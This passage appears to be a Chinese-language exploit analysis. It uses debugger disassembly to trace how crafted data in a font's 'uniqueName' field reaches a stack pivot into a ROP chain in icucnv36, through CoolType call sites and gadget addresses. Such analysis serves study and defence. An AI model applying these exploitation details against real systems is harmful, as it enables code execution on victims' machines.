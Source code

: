 #### ROP
我们对复制到栈上的这段数据（`0012E4D8`~`0012E714`）设置内存访问断点。并开启 run trace 进行函数跟踪。

继续运行，然后我们记录下函数调用：
```
CoolType.08016BDE --> CoolType.0801BB21 --> CoolType.0808B116 --> icucnv36.4A80CB38
```

```
0803DEAC    50              push eax
0803DEAD    53              push ebx
0803DEAE    57              push edi
0803DEAF    E8 2A8DFDFF     call CoolType.08016BDE
```
`CoolType.08016BDE`：
```
08016C46    6A 01           push 0x1
08016C48    53              push ebx
08016C49    53              push ebx
08016C4A    8D45 EC         lea eax,dword ptr ss:[ebp-0x14]
08016C4D    50              push eax
08016C4E    8D45 D0         lea eax,dword ptr ss:[ebp-0x30]
08016C51    50              push eax
08016C52    57              push edi
08016C53    FF75 E8         push dword ptr ss:[ebp-0x18]
08016C56    E8 C64E0000     call CoolType.0801BB21
```
`CoolType.0801BB21`：
```
0801BB24    FF75 20         push dword ptr ss:[ebp+0x20]
0801BB27    8B4D 08         mov ecx,dword ptr ss:[ebp+0x8]
0801BB2A    FF75 1C         push dword ptr ss:[ebp+0x1C]
0801BB2D    8B01            mov eax,dword ptr ds:[ecx]               ; CoolType.081A601C
0801BB2F    FF75 18         push dword ptr ss:[ebp+0x18]
0801BB32    FF05 A0A62308   inc dword ptr ds:[0x823A6A0]
0801BB38    FF75 14         push dword ptr ss:[ebp+0x14]
0801BB3B    FF75 10         push dword ptr ss:[ebp+0x10]
0801BB3E    FF75 0C         push dword ptr ss:[ebp+0xC]
0801BB41    FF10            call dword ptr ds:[eax]                  ; CoolType.0808B116
```
最终来到 `CoolType.0808B116` 里的关键点：
```
0808B11D    8B7D 08         mov edi,dword ptr ss:[ebp+0x8]
...
0808B2E3    8B47 3C         mov eax,dword ptr ds:[edi+0x3C]         ; eax = ds:[edi+0x3C]
0808B2E6    3BC3            cmp eax,ebx
0808B2E8    8986 F4020000   mov dword ptr ds:[esi+0x2F4],eax
0808B2EE    899E F8020000   mov dword ptr ds:[esi+0x2F8],ebx
0808B2F4    895D FC         mov dword ptr ss:[ebp-0x4],ebx
0808B2F7    75 07           jnz short CoolType.0808B300
0808B2F9    32C0            xor al,al
0808B2FB    E9 94020000     jmp CoolType.0808B594
0808B300    8D4D FC         lea ecx,dword ptr ss:[ebp-0x4]
0808B303    51              push ecx
0808B304    53              push ebx
0808B305    6A 03           push 0x3
0808B307    50              push eax
0808B308    FF10            call dword ptr ds:[eax]                  ; icucnv36.4A80CB38
```
通过最后的 call 指令，程序跳转到了 ROP 链。回忆一下 uniqueName 域从 `0012E4D8` 开始：
```
4A80CB38    81C5 94070000   add ebp,0x794   ; ebp = 0012E4DC
4A80CB3E    C9              leave           ; esp = 0012E4E0, ebp = C2525D73
4A80CB3F    C3              retn            ; esp = 0012E4E4, eip = 4A82A714

d esp:
```